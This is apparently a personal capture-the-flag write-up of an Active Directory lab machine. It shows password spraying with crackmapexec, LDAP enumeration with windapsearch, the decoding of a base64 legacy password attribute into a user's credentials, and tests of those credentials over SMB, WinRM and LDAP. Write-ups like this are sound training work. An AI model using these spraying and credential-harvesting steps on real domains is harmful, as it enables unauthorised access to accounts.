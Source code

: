 ## access

Based on my scans, it looks like the server is vulnerable to Zerologon. I'm guessing that wasn't the intended path, so I'll try to find another way first.

Since there's no lockout policy for password spraying, I'll try an aggressive scan for passwords.

```sh
❯ cme smb cascade -u users.txt -p /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt
# no results
```

Bummer. Not sure where to go from here. Looked at Walkthrough, and it said I should have found Ryan Thompson's password during LDAP enumeration. They used a tool called `windapsearch` to find the info, which I've never heard of. I pulled down the golang version of it from the it's repo and tested it out. It works great.

```sh
# download
wget https://github.com/ropnop/go-windapsearch/releases/latest/download/windapsearch-linux-amd64 -O windapsearch

# make executable
chmod +x windapsearch

# look for passwords. Must use '--full' to view all attributes from LDAP
./windapsearch --dc casc-dc1.cascade.local -m users --full | grep -i pwd
# ---- snip ----
cascadeLegacyPwd: clk0bjVldmE=
# ---- snip ----

# see what user the password belongs to
./windapsearch --dc casc-dc1.cascade.local -m users --full | awk -vRS= -vORS='\n\n' '/cascadeLegacyPwd/'
# ---- snip ----
sAMAccountName: r.thompson
# ---- snip ----

# base64 decode the password
❯ echo clk0bjVldmE= | base64 -d
rY4n5eva
```

So that's how I *should* have found the #credentials.
- `r.thompson:rY4n5eva`

Now let's see what we can do with these credentials:

```sh
# SMB?
❯ cme smb cascade -u r.thompson -p rY4n5eva
# works

# WinRM?
❯ cme winrm cascade -u r.thompson -p rY4n5eva
# nope

# LDAP?
❯ cme ldap cascade -u r.thompson -p rY4n5eva
# works

# enumerate admin accounts
❯ cme ldap cascade -u r.thompson -p rY4n5eva --admin-count
# standard

# check users with password not required
```